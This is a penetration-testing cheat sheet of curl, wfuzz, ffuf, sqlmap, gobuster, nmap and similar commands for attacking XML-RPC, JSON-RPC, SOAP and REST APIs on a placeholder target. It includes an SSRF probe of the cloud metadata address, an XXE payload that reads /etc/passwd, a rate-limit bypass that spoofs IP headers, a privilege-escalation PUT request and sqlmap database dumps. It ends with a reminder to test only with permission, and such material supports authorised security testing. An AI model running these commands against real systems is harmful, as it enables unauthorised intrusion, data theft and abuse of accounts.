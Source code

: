 
## XML-RPC Attacks

### Manual Request Crafting (curl)

```bash
curl -X POST -H "Content-Type: text/xml" -d '<?xml version="1.0"?><methodCall><methodName>examples.getStateName</methodName><params><param><value><i4>41</i4></value></param></params></methodCall>' http://target.com/RPC2
```

### Fuzzing with wfuzz

```bash
wfuzz -z file,xmlrpc_methods.txt -d '<?xml version="1.0"?><methodCall><methodName>FUZZ</methodName><params><param><value><i4>1</i4></value></param></params></methodCall>' http://target.com/RPC2
```

## JSON-RPC Attacks

### Manual Request Crafting (curl)

```bash
curl -X POST -H "Content-Type: application/json-rpc" -d '{"method": "sum", "params": {"a": 3, "b": 4}, "id": 0}' http://target.com/ENDPOINT
```

### Fuzzing with wfuzz

```bash
wfuzz -z file,jsonrpc_methods.txt -d '{"method": "FUZZ", "params": {}, "id": 0}' http://target.com/ENDPOINT
```

## SOAP Attacks

### Manual Request Crafting (curl)

```bash
curl -X POST -H "Content-Type: text/xml;charset=UTF-8" -d '<?xml version="1.0"?><SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/"><SOAP-ENV:Body><m:GetQuotation xmlns:m="http://www.xyz.org/quotations"><m:QuotationsName>Microsoft</m:QuotationsName></m:GetQuotation></SOAP-ENV:Body></SOAP-ENV:Envelope>' http://target.com/Quotation
```

## RESTful API Attacks

### Basic HTTP Requests (curl)

```bash
curl -X GET http://target.com/api/users
curl -X POST -H "Content-Type: application/json" -d '{"username": "test", "password": "password"}' http://target.com/api/login
curl -X PUT -H "Content-Type: application/json" -d '{"admin": true}' http://target.com/api/users/1
curl -X DELETE http://target.com/api/users/1
```

### Fuzzing with wfuzz

```bash
wfuzz -z file,api_endpoints.txt http://target.com/api/FUZZ
```

### SSRF Tests (curl)

```bash
curl "http://target.com/api/proxy?url=http://169.254.169.254/"
```

### XXE Tests (curl)

```bash
curl -X POST -H "Content-Type: application/xml" -d '<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><foo>&xxe;</foo>' http://target.com/api/xml
```

### JWT Attacks (using jwt_tool)

```bash
jwt_tool <JWT> -C
```

### API Rate Limiting Bypass (using ffuf)

```bash
ffuf -u http://target.com/api/login -X POST -d '{"username": "test", "password": "password"}' -H "Content-Type: application/json" -H "X-Forwarded-For: FUZZ" -w wordlists/ip_list.txt
```

## General Web Service/API Tools

### Nmap (Network Scanning)

```bash
nmap -sV -sC target.com
nmap -p 80,443,8080 target.com
```

### Nikto (Web Server Scanning)

```bash
nikto -h target.com
nikto -h target.com -p 8080
```

### Gobuster (Directory Brute-forcing)

```bash
gobuster dir -u http://target.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
gobuster dir -u https://target.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -k
```

### SQLmap (SQL Injection)

```bash
sqlmap -u "http://target.com/api/endpoint?id=1" --dbs
sqlmap -u "http://target.com/api/endpoint?id=1" --dump
```

### Burp Suite (GUI & Automation via Burp APIs)

### Postman (API Testing & Automation via Newman)

```bash
newman run collection.json
```

### OWASP ZAP (Automated Security Testing)

```bash
zap-cli active-scan -t target.com
```

### Wsdump.pl (WSDL analysis, part of OWASP WSFuzzer)

```bash
wsdump.pl -o output.txt http://target.com/service?wsdl
```

## Key Things to Remember

- **Placeholders**: Replace `target.com`, `http://target.com/api/endpoint`, etc., with actual targets.
    
- **Wordlists**: Ensure `xmlrpc_methods.txt`, `jsonrpc_methods.txt`, `api_endpoints.txt` exist.
    
- **Dependencies**: Install tools (`curl`, `wfuzz`, `nmap`, etc.) before testing.
    
- **Ethical Use**: Only test on systems you have explicit permission for.
    
- **Burp Suite/Postman**: Primarily GUI tools but support CLI automation.
    
- **OWASP ZAP**: Requires CLI tools installed for automation.